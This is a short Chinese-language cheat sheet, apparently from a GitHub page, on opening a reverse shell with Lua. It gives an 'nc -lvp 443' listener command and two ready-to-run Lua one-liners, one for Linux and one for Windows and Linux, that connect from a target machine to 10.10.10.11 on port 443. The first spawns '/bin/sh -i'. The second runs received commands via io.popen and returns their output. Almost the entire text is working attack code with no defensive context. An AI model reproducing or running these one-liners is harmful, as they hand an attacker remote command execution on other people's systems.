 # Lua脚本反弹shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443

```

然后在靶机上执行如下命令：Linux平台：

```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.10.11','443');os.execute('/bin/sh -i <&3 >&3 2>&3');"

```

Windows及Linux平台：

```bash
lua5.1 -e 'local host, port = "10.10.10.11", 443 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'

```

